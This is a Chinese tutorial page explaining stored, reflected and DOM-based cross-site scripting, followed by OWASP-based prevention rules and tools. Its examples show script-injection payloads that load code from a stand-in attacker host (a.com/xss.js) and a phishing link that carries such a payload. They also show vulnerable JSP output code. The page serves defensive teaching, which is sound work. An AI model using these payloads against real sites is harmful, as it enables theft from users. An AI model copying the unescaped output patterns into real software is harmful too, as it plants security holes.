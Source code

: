 跨站脚本攻击(XSS - Cross Site Scripting)
==原理==
Web程序将数据直接作为HTML显示（未进行HTML特殊字符转义、script脚本过滤），在浏览器端显示的这些内容的时候，激活其中包含的JavaScript恶意脚本，这些脚本可以用来获取用户敏感信息，追踪用户浏览历史、将用户诱导至其他网站等。

==分类==
===Stored XSS Attacks===
风险代码被先持久存储于服务器上（比如：数据库中），然后再读取出来显示到浏览器。比如在博客上发表文章、发表评论。

攻击流程示例：
<ol>
<li>恶意用户A发现某个博客系统B对博文的评论未做严格检查，而允许注入Javascript代码。</li>
<li>恶意用户A找到一个知名度高的一篇访问量大的博文，发表以下评论代码：
<source>
<script src="http://a.com/xss.js"></script>
楼主的帖子实在是写得太好了。文笔流畅,修辞得体,深得魏晋诸朝遗风,
更将唐风宋骨发扬得入木三分,能在有生之年看见楼主的这个帖子。
实在是我三生之幸啊。......
</source>
</li>
<li>博客系统B使用以下方式显示回帖（JSP语法）：
<source>
回帖人：<%=comment.userId %>，回帖内容是：<%= comment.content %>
</source>
</li>
<li>后果：每个读此博文并看到该评论的受害者都会加载并执行其中的恶意代码。</li>
</ol>

===Reflected XSS Attacks===
风险代码并没有被持久存储，而是在服务器端转了一圈之后就直接显示在生成的动态HTML中。
这种攻击方式常被以HTML邮件的方式发送给潜在受害者。

攻击流程示例：
<ol>
<li>恶意用户A搜索、验证并确信某系统B在访问 <code>http://b.com/welcome.do?user=zhang3</code> 时，是以以下方式显示URL中的用户名的（JSP语法）：
<source>
 welcome <%=param["user"] %>!
</source>
</li>
<li>恶意用户A就利用此漏洞，以系统B的名义向多个用户发送包含以下连接的HTML邮件，并诱导用户点击该链接：
<source>
{系统B}温馨提醒您：XXX 想加您好友，请点击
<a href="http://b.com/welcome.do?user=zhang3<script src='http://a.com/xss.js'></script>">此处</a>
进行处理！
</source>
</li>
<li>后果：受害者在阅读该邮件并点击此链接后，在浏览系统B的欢迎画面时，就会加载并执行来自于 a.com 的恶意脚本</li>
</ol>


===DOM Based XSS===
这种方式与 Reflected XSS Attacks 比较相似，但区别在于：在Reflected XSS Attacks 中，恶意代码时有缺陷的系统在返回给浏览器端之间就加入到生成的HTML中了（比如通过JSP、PHP等）；而在 DOM Based XSS 中，恶意代码是在浏览器端通过有缺陷的JavaScript代码在动态修改DOM树时加入的。

也即，在 Reflected XSS Attacks 的攻击流程示例的第二步中的代码替换为以下方式：
<source>
 welcome <script>
document.write(document.location.href.substring(document.location.href.indexOf("user=")+5));
</script>!
</source>

与前两种的区别是：前两种最终会将风险代码写在生成HTML中，而这一种是服务器端返回的HTML本身并不包含风险代码，但是其中的JavaScript脚本在动态修改DOM时，未对输出值做充分的安全检查。


注入点
1. 客户端：来自用户输入，却未作安全检查。

<source>
<img src="https://www.owasp.org/skins/monobook/ologo.png" onload="alert('XSS');" >
</source>
2.
2. 服务器端：来自配置文件，却未作安全检查（比如消息模板，头部文件）

DOM Based XSS
  你的程序本身存在一些依赖于来自于客户端的数据并展示，但是对来源数据为做安全检查。



==防范XSS==
在Web应用中，XSS缺陷很难确认和移除，一些漏洞扫描工具也只能对浅层的扫描。最好的方式就是针对安全展开代码Review，并对所有来自HTTP请求的数据进行检查，如果请求中的数据有可能最终作为HTML显示，就需要做相应的处理。

==检查列表==
这里仅仅给出了部分摘要，更详尽列表请参看[https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet 这里]：
<ul>
<li>RULE #0 - 不信任的数据只能插入到允许的位置
<p> 示例代码：
<source>
  <script>...NEVER PUT UNTRUSTED DATA HERE...</script>   直接放到script中
  &lt;!--...NEVER PUT UNTRUSTED DATA HERE...-->             在HTML注释中
  <div ...NEVER PUT UNTRUSTED DATA HERE...=test />       在属性名中
  <NEVER PUT UNTRUSTED DATA HERE... href="/test" />      在标签名中
  <style>...NEVER PUT UNTRUSTED DATA HERE...</style>     直接在CSS中
</source>
</p>
</li>

<li>RULE #1 - 插入HTML内容时要先转义
HTML特殊字符转义
<source>
 &amp; --&gt; &amp;amp;
 &lt; --&gt; &amp;lt;
 &gt; --&gt; &amp;gt;
 &quot; --&gt; &amp;quot;
 &#x27; --&gt; &amp;#x27;
 / --&gt; &amp;#x2F; 这里包含了斜杠，因为它在结束一个标签时有用
</source>
</li>

<li>RULE #2 - 插入标签的属性值前要先转义

</li>

<li>RULE #3 - 将不信任的数据插入到JavaScript前要先转义</li>
<li>RULE #3.1 - 在HTML中对JSON的值进行HTML转义，以及使用 JSON.parse 读取数据</li>
<li>RULE #4 - 对CSS转义，以及对HTML元素的sytle设置值前要进行充分的检查</li>
<li>RULE #5 - 在插入URL数据前要先URL转义</li>
<li>RULE #6 - 在输出用户输入的HTML内容时，要使用HTML策略引擎进行验证或移除其中的风险代码</li>
<li>RULE #7 - 要预防 DOM-based XSS</li>
<li>RULE #7 - 使用 [https://www.owasp.org/index.php/HTTPOnly HTTPOnly cookie]</li>


</ul>
==DOM Based XSS 检查列表==
<ul>
<li>RULE #1 - 在可以执行JavaScript的环境中，要对不信任的数据先 HTML 转义，再 JavaScript 转义</li>
<li>RULE #2 - 在可以执行JavaScript的环境中，为HTML元素的属性设置值前要先进行 JavaScript 转义</li>
<li>RULE #3 - 在可以执行JavaScript的环境中，设置事件处理函数等地方需要特别注意</li>
<li>RULE #4 - 在插入CSS属性时需要先进行 JavaScript 转义</li>
<li>RULE #5 - 在插入URL前要先进行URL转义</li>
</ul>

==工具==
* [http://www.cirt.net/nikto2 Nikto2] - 开源的Web服务器扫描工具
* [http://www.tenable.com/products/nessus nessus] - 漏洞扫描工具
* [http://wpl.codeplex.com/ Microsoft Web Protection Library] - .Net 平台下的安全工具
* [http://msdn.microsoft.com/en-us/library/ms972969.aspx#securitybarriers_topic6 ValidateRequest] - .Net 平台内建功能，可以提供部分安全保护措施
* [https://www.owasp.org/index.php/ESAPI OWASP ESAPI] - OWASP Enterprise Security API

参考：
* [https://www.owasp.org/index.php/Cross-site_Scripting_(XSS) Cross site Scripting ]
* [https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet XSS Filter Evasion Cheat Sheet]

Cross-Site Request Forgery (CSRF)